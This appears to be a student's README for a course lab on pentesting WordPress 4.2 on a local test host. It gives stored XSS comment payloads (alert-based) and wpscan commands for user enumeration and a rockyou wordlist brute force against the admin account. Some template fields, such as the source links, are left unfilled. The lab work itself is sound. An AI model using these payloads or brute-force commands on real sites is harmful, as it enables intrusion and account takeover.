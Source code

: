 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to stored XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/xWQw0
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment:<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/BpbID
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: <script>alert('XSS');</script>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vunerability to enumeration through wpscan in kali linux terminal
    - Vulnerability types: user enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7
  - [x] GIF Walkthrough: https://imgur.com/a/EqxpY
  - [x] Steps to recreate: 
		1. open terminal;
		2. use command: wpscan --enumerate u --url wpdistillery.local;
		3. download text file rockyou-75.txt;
		4. use command: wpscan --url wpdistillery.local --wordlist '/root/rockyou-75.txt' --username admin

  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
rockyou-75.txt

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
encountered substaintial difficulties installing the wordpress software
encountered difficulties when attempting to use wpdistillery.dev and needed to use wpdistillery.local
encountered difficulties when attempting to switch between versions and needed to completely reinstall the software

## License

    Copyright [2017] [Beck Galbraith]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
